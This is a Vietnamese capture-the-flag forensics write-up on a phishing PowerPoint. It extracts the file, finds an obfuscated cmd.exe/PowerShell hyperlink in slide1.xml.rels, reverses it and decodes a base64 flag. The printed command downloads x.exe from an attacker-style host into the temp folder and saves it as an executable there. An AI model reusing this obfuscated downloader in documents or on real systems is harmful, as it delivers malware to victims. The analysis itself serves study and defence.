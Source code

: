 # AlienPhish

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

{% file src="../../.gitbook/assets/forensics_alienphish.zip" %}

* Tiếp tục với Phân tích tài liệu độc, lần này là một file PowerPoint
*

    <figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

```
┌──(kali㉿kali)-[~/Desktop/HTB/AlienPhise]
└─$ unzip Alien\ Weaknesses.pptx 
Archive:  Alien Weaknesses.pptx
  inflating: [Content_Types].xml     
  inflating: _rels/.rels             
  inflating: ppt/slides/_rels/slide1.xml.rels  
  inflating: ppt/_rels/presentation.xml.rels  
  inflating: ppt/presentation.xml    
  inflating: ppt/slides/slide1.xml   
  inflating: ppt/slideLayouts/_rels/slideLayout5.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout8.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout10.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout11.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout9.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout6.xml.rels  
  inflating: ppt/slideMasters/_rels/slideMaster1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout1.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout2.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout3.xml.rels  
  inflating: ppt/slideLayouts/_rels/slideLayout7.xml.rels  
  inflating: ppt/slideLayouts/slideLayout11.xml  
  inflating: ppt/slideLayouts/slideLayout10.xml  
  inflating: ppt/slideLayouts/slideLayout3.xml  
  inflating: ppt/slideLayouts/slideLayout2.xml  
  inflating: ppt/slideLayouts/slideLayout1.xml  
  inflating: ppt/slideMasters/slideMaster1.xml  
  inflating: ppt/slideLayouts/slideLayout4.xml  
  inflating: ppt/slideLayouts/slideLayout5.xml  
  inflating: ppt/slideLayouts/slideLayout6.xml  
  inflating: ppt/slideLayouts/slideLayout7.xml  
  inflating: ppt/slideLayouts/slideLayout8.xml  
  inflating: ppt/slideLayouts/slideLayout9.xml  
  inflating: ppt/slideLayouts/_rels/slideLayout4.xml.rels  
  inflating: ppt/theme/theme1.xml    
 extracting: ppt/media/image1.png    
 extracting: ppt/media/image2.png    
 extracting: docProps/thumbnail.jpeg  
  inflating: ppt/presProps.xml       
  inflating: ppt/tableStyles.xml     
  inflating: ppt/viewProps.xml       
  inflating: docProps/app.xml        
  inflating: docProps/core.xml 
```

* Sau khi mình check tất cả các file thì nhận thấy file `slide1_xml.rels` chứa một chuỗi đáng ngờ

```
┌──(kali㉿kali)-[~/…/AlienPhise/ppt/slides/_rels]
└─$ strings slide1.xml.rels 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image1.png"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout" Target="../slideLayouts/slideLayout1.xml"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="../media/image2.png"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

* Nhìn vào các Target ta sẽ thấy ngay đoạn bất thường

```
Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

* Nếu để ý thì sẽ thấy một số string bị đảo ngược

```
neila -> alien
htraeyortsed -> destroyearth
ptth -> http
```

* Reverse đoạn Target này lại

```
22%52%=!XCk*:XCk52%02%llac02%002%qel02%X52%02%fi;pma&;pma&!1,X52%~:My!!XCk!=XCk02%tes02%od)0;1-;221(02%ni02%X52%02%L/02%rof;pma&;pma&powershell02%-c02%22%$o02%=02%$env:temp02%+02%'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe';02%iwr02%http:/destroyearth.alien/x.exe02%-outfile02%$o22%=My02%tes22%C/NO:V/02%exe.dmc"=tegraT
```

* Ta có một đoạn  base64 `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM`

```
>>> import base64
>>> flag = "Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM="
>>> base64.b64decode(flag)
b'CHTB{pH1sHiNg_w0_m4cr0s'
```

Ta có flag cần tìm

\
